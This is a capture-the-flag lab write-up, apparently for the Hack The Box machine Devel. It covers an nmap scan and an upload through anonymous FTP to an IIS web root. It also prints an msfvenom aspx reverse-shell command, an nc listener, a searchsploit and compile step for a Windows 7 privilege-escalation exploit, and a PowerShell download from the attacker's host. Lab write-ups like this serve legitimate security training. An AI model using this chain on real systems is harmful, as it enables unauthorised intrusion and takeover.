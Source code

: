 
2_0_50727

iis server - iis7

ftp annon login successful

nmap scan


#### Nmap scan

Nmap all port scan revealed only two ports to be open 21 and 80. Then I proceeded with script and version scans.

```sh
└─$ nmap  -sC -sV -p21,80 10.10.10.5
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-15 13:03 EDT
Nmap scan report for 10.10.10.5
Host is up (0.054s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.29 seconds

```

---
#### FTP

FTP anonymous login was successful (uid: anonymous - pass: anonymous)

There were no interesting files in it. 

But ftp 's root folder is same as web server's

Let us try if we can upload files
```sh
ftp> put flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||49157|)
125 Data connection already open; Transfer starting.
100% |***********************************************************|    34       47.63 KiB/s    --:-- ETA
226 Transfer complete.
34 bytes sent in 00:00 (0.70 KiB/s)
```

```
ftp> ls
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
08-16-23  05:52AM                   34 flag.txt
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
Success.

---
We can upload an aspx shell and execute via web server as the iis server 7.5 supports it

```sh
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.30 LPORT=4444 -o reverse-shell.aspx
```

```sh
ftp> put reverse-shell.aspx
local: reverse-shell.aspx remote: reverse-shell.aspx
229 Entering Extended Passive Mode (|||49167|)
125 Data connection already open; Transfer starting.
100% |***********************************************************|  2805       25.47 MiB/s    --:-- ETA
226 Transfer complete.
2805 bytes sent in 00:00 (53.24 KiB/s)
```

```sh
ftp> ls
229 Entering Extended Passive Mode (|||49168|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
08-16-23  05:52AM                   34 flag.txt
03-17-17  05:37PM                  689 iisstart.htm
08-16-23  05:59AM                 2805 reverse-shell.aspx
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 

```

---
Browse to the location

![[Pasted image 20230816083147.png]]

---
We get a reverse shell

```sh
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
^[[Aconnect to [10.10.14.28] from (UNKNOWN) [10.10.10.5] 49169
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

wwhoami' is not recognized as an internal or external command,
operable program or batch file.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>

```

---

```sh
C:\windows\system32\inetsrv>cd C:\Users
cd C:\Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users

18/03/2017  02:16 ��    <DIR>          .
18/03/2017  02:16 ��    <DIR>          ..
18/03/2017  02:16 ��    <DIR>          Administrator
17/03/2017  05:17 ��    <DIR>          babis
18/03/2017  02:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  10:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   4.011.515.904 bytes free

```

```sh
C:\Users>cd babis
cd babis
Access is denied.

C:\Users>cd Admnistrator
cd Admnistrator
The system cannot find the path specified.

C:\Users>cd Administrator
cd Administrator
Access is denied.

C:\Users>cd 'Classic .NET AppPool'   
cd 'Classic .NET AppPool'
The system cannot find the path specified.

C:\Users>cd Classic .NET AppPool    
cd Classic .NET AppPool
Access is denied.
```


#### System enumeration
---
```sh
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          16/8/2023, 5:45:12 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.449 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.531 MB
Virtual Memory: In Use:    610 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::d0ff:b3ea:56fd:e26d
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e

```

Hotfix - NA  means this windows machine has never been updated

#### Hunt for exploits
---
We have an unpatched win 7 build 7600

On googleing we get https://www.exploit-db.com/exploits/40564 which has instructions to compile the exploit.

It is a priv esc exploit.

`searchsploit -u` to update searchsploit

use `searchsploit -m 40564` to copy the exploit 

Compile the .c file using the instructions in the exploit
`i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32`

As there is no python, wget or netcat. We can transfer file using powershell

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.10:8000/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

Run the exploit form downloads folder and we get root

![[Pasted image 20230927100542.png]]

